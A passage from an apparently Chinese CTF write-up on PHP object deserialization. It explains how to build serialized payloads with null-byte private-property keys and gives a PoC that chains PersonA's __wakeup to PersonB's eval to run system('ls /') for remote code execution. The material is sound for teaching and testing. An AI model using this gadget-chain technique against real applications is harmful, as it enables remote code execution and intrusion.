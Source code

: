 - 用 `newInstanceWithoutConstructor()` 跳过构造器（若需可直接 new）。
- `setAccessible(true)` 使 private 可写。

方法 B — 手工构造序列化字符串（直接输出 payload）

要点：私有属性键名格式为 `"\0ClassName\0prop"`（含 null byte），序列化格式需准确的字节长度（`strlen`）。

```php
<?php
class PersonA { private $name; function __wakeup(){} }
class PersonB { public $name; function work(){} }

// 先序列化属性值（这里是 PersonB 实例）
$b = new PersonB(); $b->name = 'payload';
$serializedB = serialize($b);

// 构造私有属性键名（含 null 字节）
$key = "\0" . "PersonA" . "\0" . "name";
$klen = strlen($key);

// 拼接最终 payload（单属性示例）
$payload = sprintf('O:%d:"%s":1:{s:%d:"%s";%s}',
    strlen("PersonA"), "PersonA",
    $klen, $key,
    $serializedB
);

echo $payload, PHP_EOL;

```

要点提示：

- 私有属性键名必须包含 `\0ClassName\0prop`（字节计数）。
- `strlen()` 用于字节长度计算（非常重要）。

然后我们审题，给了我们两个类`PersonA`和`PersonB`。注意到可利用的eval在`PersonB`但是我们无法直接调用work方法，而`PersonA`的`_wakeup`魔法方法提供了调用任何方法的机会，于是思路就是通过`PersonA`调用`PersonB`的work方法达到RCE。

PoC 如下:

```php
<?php
class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}

$rc = new ReflectionClass('PersonA');
$obj = $rc->newInstanceWithoutConstructor();

$prop = $rc->getProperty('name');
$prop->setAccessible(true);

$b = new PersonB(); $b->name = 'system("ls /");';
$prop->setValue($obj, $b);
```